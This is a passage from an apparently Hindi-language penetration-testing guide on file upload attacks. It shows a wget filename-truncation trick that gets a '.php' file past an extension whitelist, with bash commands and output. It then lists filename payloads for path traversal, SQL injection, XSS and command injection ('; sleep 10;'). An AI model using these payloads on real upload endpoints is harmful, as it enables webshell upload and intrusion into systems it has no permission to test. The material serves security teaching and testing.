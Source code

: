 ## **wget फ़ाइल अपलोड/SSRF ट्रिक**

कभी-कभी आपको यह देखने को मिल सकता है कि एक सर्वर **`wget`** का उपयोग कर रहा है **फ़ाइलें डाउनलोड** करने के लिए और आप **URL** को **इंगित** कर सकते हैं। इन मामलों में, कोड यह जांच सकता है कि डाउनलोड की गई फ़ाइलों का एक्सटेंशन एक whitelist में है ताकि केवल अनुमति प्राप्त फ़ाइलें ही डाउनलोड हों। हालांकि, **इस जांच को दूर किया जा सकता है**।
**लिनक्स** में एक **फ़ाइलनाम** की **अधिकतम** लंबाई **255** है, हालांकि, **wget** फ़ाइलनाम को **236** वर्णों तक काट देता है। आप **"A"\*232+".php"+".gif"** नामक एक फ़ाइल डाउनलोड कर सकते हैं, यह फ़ाइलनाम जांच को **दूर करेगा** \(जैसा कि इस उदाहरण में **".gif"** एक **वैध** एक्सटेंशन है\) लेकिन `wget` फ़ाइल को **"A"\*232+".php"** नाम से पुनर्नामित करेगा।
```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
```
नोट करें कि इस जांच को बाईपास करने के लिए आपके मन में एक और विकल्प हो सकता है, जो है कि **HTTP सर्वर को एक अलग फ़ाइल पर पुनर्निर्देशित करें**, तो प्रारंभिक URL जांच को बाईपास करेगा, फिर wget नए नाम के साथ पुनर्निर्देशित फ़ाइल को डाउनलोड करेगा। यह **काम नहीं करेगा** **जब तक** wget को **पैरामीटर** `--trust-server-names` के साथ उपयोग किया जा रहा हो, क्योंकि **wget पुनर्निर्देशित पृष्ठ को मूल URL में निर्दिष्ट फ़ाइल के नाम के साथ डाउनलोड करेगा**।

# फ़ाइल अपलोड से अन्य सुरक्षा दुरुपयोगों तक

* **फ़ाइलनाम** को `../../../tmp/lol.png` सेट करें और पथ ट्रावर्सल प्राप्त करने का प्रयास करें
* **फ़ाइलनाम** को `sleep(10)-- -.jpg` सेट करें और आप एक **SQL इंजेक्शन** प्राप्त कर सकते हैं
* **फ़ाइलनाम** को `<svg onload=alert(document.comain)>` सेट करें और एक **XSS** प्राप्त करें
* **फ़ाइलनाम** को `; sleep 10;` सेट करें और कुछ कमांड इंजेक्शन का परीक्षण करें \(अधिक [कमांड इंजेक्शन ट्रिक्स यहां](command-injection.md)\)
* [**छवि \(svg\) फ़ाइल अपलोड** में XSS](xss-cross-site-scripting/#xss-uploading-files-svg)
* **JS** फ़ाइल **अपलोड** + **XSS** = [**सेवा कर्मचारी** शोषण](xss-cross-site-scripting/#xss-abusing-service-workers)
* [**svg अपलोड में XXE**](xxe-xee-xml-external-entity.md#svg-file-upload)
* [अपलोड करने के माध्यम से **ओपन रीडायरेक्ट**](open-redirect.md#open-redirect-uploading-svg-files)
* [प्रसिद्ध **ImageTrick** सुरक्षा दुरुपयोग](https://mukarramkhalid.com/imagemagick-imagetragick-exploit/)